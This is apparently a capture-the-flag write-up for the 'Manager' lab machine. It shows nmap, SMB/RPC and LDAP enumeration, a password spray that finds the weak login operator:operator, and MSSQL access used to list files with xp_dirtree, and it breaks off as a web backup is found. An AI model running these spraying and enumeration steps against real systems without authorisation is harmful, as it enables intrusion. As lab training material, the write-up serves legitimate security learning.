





# Manager

# Manager

| Hostname | Difficulty |
| --- | --- |
| manager | Medium |

Machine IP: 10.10.11.236 :

```bash
TARGET=10.10.11.236
```

## Initial Reconnaissance

### Ports and services

```bash
nmap --open -p- $TARGET -Pn
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-01 20:58 UTC
Nmap scan report for 10.10.11.236
Host is up (0.021s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49687/tcp open  unknown
49688/tcp open  unknown
49693/tcp open  unknown
49728/tcp open  unknown
55155/tcp open  unknown
62235/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 108.10 seconds
```

```bash
nmap -sC -sV -A -p 53,80,88,135,139,389,445,1433 $TARGET
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-01 21:03 UTC
Nmap scan report for 10.10.11.236
Host is up (0.019s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-02 04:03:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-11-02T04:04:15+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-11-01T15:01:22
|_Not valid after:  2053-11-01T15:01:22
|_ssl-date: 2023-11-02T04:04:15+00:00; +7h00m00s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-11-02T04:03:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   18.67 ms 10.10.14.1
2   18.80 ms 10.10.11.236

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.66 seconds
```

This hostname : dc01.manager.htb

```bash
echo "10.10.11.236 manager.htb" >> /etc/hosts
echo "10.10.11.236 dc01.manager.htb" >> /etc/hosts
```

### Web service - port 80

[http://10.10.11.236/](http://10.10.11.236/)


### SMB - port 139 / 445

```bash
nmap --script "safe or smb-enum-*" -p 445 10.10.11.236
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 21:38 UTC
Pre-scan script results:
|_eap-info: please specify an interface with -e
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| targets-asn:
|_  targets-asn.asn is a mandatory parameter
Nmap scan report for 10.10.11.236
Host is up (0.019s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)

Host script results:
| unusual-port:
|_  WARNING: this script depends on Nmap's service/version detection (-sV)
| smb-mbenum:
|_  ERROR: Failed to connect to browser service: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_msrpc-enum: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_ipidseq: Incremental!
| dns-blacklist:
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
| port-states:
|   tcp:
|_    open: 445
| smb-protocols:
|   dialects:
|     202
|     210
|     300
|     302
|_    311
| smb2-capabilities:
|   202:
|     Distributed File System
|   210:
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   300:
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   302:
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   311:
|     Distributed File System
|     Leasing
|_    Multi-credit operations
|_path-mtu: PMTU == 1500
|_clock-skew: 7h00m00s
| smb2-time:
|   date: 2023-11-03T04:39:05
|_  start_date: N/A

Post-scan script results:
| reverse-index:
|_  445/tcp: 10.10.11.236
Nmap done: 1 IP address (1 host up) scanned in 91.43 seconds
```

```bash
smbclient -L 10.10.11.236 --no-pass
```

```bash
Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

```bash
enum4linux-ng -A 10.10.11.236
```

```bash
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.11.236
[*] Username ......... ''
[*] Random Username .. 'kjuwvpmw'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.10.11.236    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for 10.10.11.236    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: manager.htb

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.11.236    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 10.10.11.236    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ===========================================================
|    Domain Information via SMB session for 10.10.11.236    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01
NetBIOS domain name: MANAGER
DNS domain: manager.htb
FQDN: dc01.manager.htb
Derived membership: domain member
Derived domain: MANAGER

 =========================================
|    RPC Session Check on 10.10.11.236    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'kjuwvpmw', password ''
[H] Rerunning enumeration with user 'kjuwvpmw' might give more results

 ===================================================
|    Domain Information via RPC for 10.10.11.236    |
 ===================================================
[+] Domain: MANAGER
[+] Domain SID: S-1-5-21-4078382237-1492182817-2568127209
[+] Membership: domain member

 ===============================================
|    OS Information via RPC for 10.10.11.236    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 =====================================
|    Users via RPC on 10.10.11.236    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ======================================
|    Groups via RPC on 10.10.11.236    |
 ======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ======================================
|    Shares via RPC on 10.10.11.236    |
 ======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 =========================================
|    Policies via RPC for 10.10.11.236    |
 =========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 =========================================
|    Printers via RPC for 10.10.11.236    |
 =========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.30 seconds
```

We can go deeper with crackmapexec. There is a need of a user account, but we can test with :

- guest / “”
- anonymous / “”

We have some good results with guest account :

```bash
crackmapexec smb 10.10.11.236 -d MANAGER -u guest -p "" --shares   --sessions  --loggedon-users --users --groups  --computers --pass-pol --rid-brute
```

```bash
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:MANAGER) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] MANAGER\guest:
SMB         10.10.11.236    445    DC01             [*] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON                        Logon server share
SMB         10.10.11.236    445    DC01             SYSVOL                          Logon server share
SMB         10.10.11.236    445    DC01             [*] Enumerated sessions
SMB         10.10.11.236    445    DC01             [+] Enumerated logged_on users
SMB         10.10.11.236    445    DC01             [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.11.236    445    DC01             [-] Error enumerating domain group using dc ip 10.10.11.236: NTLM needs domain\username and a password
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

There is a service account for SQL server : MANAGER\SQLServer2005SQLBrowserUser$DC01

And some users :

- MANAGER\Zhong
- MANAGER\Cheng
- MANAGER\Ryan
- MANAGER\Raven
- MANAGER\JinWoo
- MANAGER\ChinHae

And some technical users :

- MANAGER\Operator
- MANAGER\Administrator

Before a brute force, try to password-spray on these accounts.

Create a file with the user names :

```bash
cat <<EOF > manager-users.txt
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
EOF
```

Give a try :

```bash
crackmapexec smb manager.htb -u manager-users.txt -p manager-users.txt
```

no luck, but try again with only lowercase usernames :

```bash
tr A-Z a-z < ./manager-users.txt > manager-users-lowercase.txt
```

try again :

```bash
crackmapexec smb manager.htb -u manager-users.txt -p manager-users-lowercase.txt
```

```bash
SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [-] manager.htb\Zhong:zhong STATUS_LOGON_FAILURE
SMB         manager.htb     445    DC01             [-] manager.htb\Cheng:zhong STATUS_LOGON_FAILURE
SMB         manager.htb     445    DC01             [-] manager.htb\Ryan:zhong STATUS_LOGON_FAILURE
...
SMB         manager.htb     445    DC01             [-] manager.htb\JinWoo:operator STATUS_LOGON_FAILURE
SMB         manager.htb     445    DC01             [-] manager.htb\ChinHae:operator STATUS_LOGON_FAILURE
SMB         manager.htb     445    DC01             [+] manager.htb\Operator:operator
```

We have a match :

operator : operator

Enumerate again with that credential :

```bash
enum4linux-ng -A 10.10.11.236 -u operator -p operator
```

```bash
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.11.236
[*] Username ......... 'operator'
[*] Random Username .. 'gztfpmis'
[*] Password ......... 'operator'
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 10.10.11.236    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ====================================================
|    Domain Information via LDAP for 10.10.11.236    |
 ====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: manager.htb

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.11.236    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 10.10.11.236    |
 =========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ===========================================================
|    Domain Information via SMB session for 10.10.11.236    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01
NetBIOS domain name: MANAGER
DNS domain: manager.htb
FQDN: dc01.manager.htb
Derived membership: domain member
Derived domain: MANAGER

 =========================================
|    RPC Session Check on 10.10.11.236    |
 =========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for user session
[+] Server allows session using username 'operator', password 'operator'
[*] Check for random user
[+] Server allows session using username 'gztfpmis', password 'operator'
[H] Rerunning enumeration with user 'gztfpmis' might give more results

 ===================================================
|    Domain Information via RPC for 10.10.11.236    |
 ===================================================
[+] Domain: MANAGER
[+] Domain SID: S-1-5-21-4078382237-1492182817-2568127209
[+] Membership: domain member

 ===============================================
|    OS Information via RPC for 10.10.11.236    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: '500'
Server type: '0x80102f'
Server type string: Wk Sv Sql PDC Tim NT

 =====================================
|    Users via RPC on 10.10.11.236    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[+] Found 10 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 10 user(s) via 'enumdomusers'
[+] After merging user results we have 10 user(s) total:
'1113':
  username: Zhong
  name: (null)
  acb: '0x00000210'
  description: (null)
'1114':
  username: Cheng
  name: (null)
  acb: '0x00000210'
  description: (null)
'1115':
  username: Ryan
  name: (null)
  acb: '0x00000210'
  description: (null)
'1116':
  username: Raven
  name: (null)
  acb: '0x00000210'
  description: (null)
'1117':
  username: JinWoo
  name: (null)
  acb: '0x00000210'
  description: (null)
'1118':
  username: ChinHae
  name: (null)
  acb: '0x00000210'
  description: (null)
'1119':
  username: Operator
  name: (null)
  acb: '0x00000210'
  description: (null)
'500':
  username: Administrator
  name: (null)
  acb: '0x00004210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000214'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00020011'
  description: Key Distribution Center Service Account

 ======================================
|    Groups via RPC on 10.10.11.236    |
 ======================================
[*] Enumerating local groups
[+] Found 6 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 28 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 15 group(s) via 'enumdomgroups'
[+] After merging groups results we have 49 group(s) total:
'1101':
  groupname: DnsAdmins
  type: local
'1102':
  groupname: DnsUpdateProxy
  type: domain
'1103':
  groupname: SQLServer2005SQLBrowserUser$DC01
  type: local
'498':
  groupname: Enterprise Read-only Domain Controllers
  type: domain
'512':
  groupname: Domain Admins
  type: domain
'513':
  groupname: Domain Users
  type: domain
'514':
  groupname: Domain Guests
  type: domain
'515':
  groupname: Domain Computers
  type: domain
'516':
  groupname: Domain Controllers
  type: domain
'517':
  groupname: Cert Publishers
  type: local
'518':
  groupname: Schema Admins
  type: domain
'519':
  groupname: Enterprise Admins
  type: domain
'520':
  groupname: Group Policy Creator Owners
  type: domain
'521':
  groupname: Read-only Domain Controllers
  type: domain
'522':
  groupname: Cloneable Domain Controllers
  type: domain
'525':
  groupname: Protected Users
  type: domain
'526':
  groupname: Key Admins
  type: domain
'527':
  groupname: Enterprise Key Admins
  type: domain
'544':
  groupname: Administrators
  type: builtin
'545':
  groupname: Users
  type: builtin
'546':
  groupname: Guests
  type: builtin
'548':
  groupname: Account Operators
  type: builtin
'549':
  groupname: Server Operators
  type: builtin
'550':
  groupname: Print Operators
  type: builtin
'551':
  groupname: Backup Operators
  type: builtin
'552':
  groupname: Replicator
  type: builtin
'553':
  groupname: RAS and IAS Servers
  type: local
'554':
  groupname: Pre-Windows 2000 Compatible Access
  type: builtin
'555':
  groupname: Remote Desktop Users
  type: builtin
'556':
  groupname: Network Configuration Operators
  type: builtin
'557':
  groupname: Incoming Forest Trust Builders
  type: builtin
'558':
  groupname: Performance Monitor Users
  type: builtin
'559':
  groupname: Performance Log Users
  type: builtin
'560':
  groupname: Windows Authorization Access Group
  type: builtin
'561':
  groupname: Terminal Server License Servers
  type: builtin
'562':
  groupname: Distributed COM Users
  type: builtin
'568':
  groupname: IIS_IUSRS
  type: builtin
'569':
  groupname: Cryptographic Operators
  type: builtin
'571':
  groupname: Allowed RODC Password Replication Group
  type: local
'572':
  groupname: Denied RODC Password Replication Group
  type: local
'573':
  groupname: Event Log Readers
  type: builtin
'574':
  groupname: Certificate Service DCOM Access
  type: builtin
'575':
  groupname: RDS Remote Access Servers
  type: builtin
'576':
  groupname: RDS Endpoint Servers
  type: builtin
'577':
  groupname: RDS Management Servers
  type: builtin
'578':
  groupname: Hyper-V Administrators
  type: builtin
'579':
  groupname: Access Control Assistance Operators
  type: builtin
'580':
  groupname: Remote Management Users
  type: builtin
'582':
  groupname: Storage Replica Administrators
  type: builtin

 ======================================
|    Shares via RPC on 10.10.11.236    |
 ======================================
[*] Enumerating shares
[+] Found 5 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK

 =========================================
|    Policies via RPC for 10.10.11.236    |
 =========================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:
  Password history length: 24
  Minimum password length: 7
  Maximum password age: 41 days 23 hours 53 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: false
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: not set

 =========================================
|    Printers via RPC for 10.10.11.236    |
 =========================================
[+] No printers available

Completed after 11.29 seconds
```

This confirm the access, and provide a few more information.

### LDAP

dump the Directory using the operator account :

```bash
ldapdomaindump --user "MANAGER\\operator" --password "operator" --outdir ldapdomaindump manager.htb
```

```bash
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

We get a few HTML pages :











### MSSQL - port 1433

ref: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#login](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#login)

We can also test this operator account against the ms-sql service :

```bash
mssqlclient.py -windows-auth MANAGER/Operator:operator@manager.htb
```

and we get an access :

```bash
Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```

Let’s go enumerate the ms-sql instance !

```bash
SQL (MANAGER\Operator  guest@master)> select @@version;

Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
```

```bash
select user_name();

-----
guest
```

```bash
SQL (MANAGER\Operator  guest@master)> SELECT name FROM master.dbo.sysdatabases;

name
------
master
tempdb
model
msdb
```

We do not have enougth privileges to execute commands :

```bash
SQL (MANAGER\Operator  guest@master)> SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
SQL (MANAGER\Operator  guest@master)> sp_configure 'show advanced options', '1'
[-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
SQL (MANAGER\Operator  guest@master)>
```

But it seems we still can browse the filesystem on remote target :

```bash
SQL (MANAGER\Operator  guest@master)> EXEC sp_helprotect 'xp_dirtree';
Owner   Object       Grantee   Grantor   ProtectType   Action    Column
-----   ----------   -------   -------   -----------   -------   ------
sys     xp_dirtree   public    dbo       b'Grant     '   Execute   .
```

Browse on C: root :

```bash
SQL (MANAGER\Operator  guest@master)>  EXEC master.sys.xp_dirtree 'C:\',1,1
subdirectory                depth   file
-------------------------   -----   ----
$Recycle.Bin                    1      0
Documents and Settings          1      0
inetpub                         1      0
PerfLogs                        1      0
Program Files                   1      0
Program Files (x86)             1      0
ProgramData                     1      0
Recovery                        1      0
SQL2019                         1      0
System Volume Information       1      0
Users                           1      0
Windows                         1      0
```

Found a reference on xp_dirtree parameters : [https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder)

Xp_dirtree has three parameters:

1. directory - This is the directory you pass when you call the stored procedure; for example 'D:\Backup'.
2. depth - This tells the stored procedure how many subfolder levels to display. The default of 0 will display all subfolders.
3. file - This will either display files as well as each folder. The default of 0 will not display any files.

The inetpub is for ISS, and the web application available

```bash
SQL (MANAGER\Operator  guest@master)>  EXEC master.sys.xp_dirtree 'C:\inetpub\',1,1
subdirectory   depth   file
------------   -----   ----
custerr            1      0
history            1      0
logs               1      0
temp               1      0
wwwroot            1      0
```

```bash
SQL (MANAGER\Operator  guest@master)>  EXEC master.sys.xp_dirtree 'C:\inetpub\wwwroot\',1,1
subdirectory                      depth   file
-------------------------------   -----   ----
about.html                            1      1
contact.html                          1      1
css                                   1      0
images                                1      0
index.html                            1      1
js                                    1      0
service.html                          1      1
web.config                            1      1
website-backup-27-07-23-old.zip       1      1
```

What !? a backup file ?!

### Web backup

Get the backup file

```bash
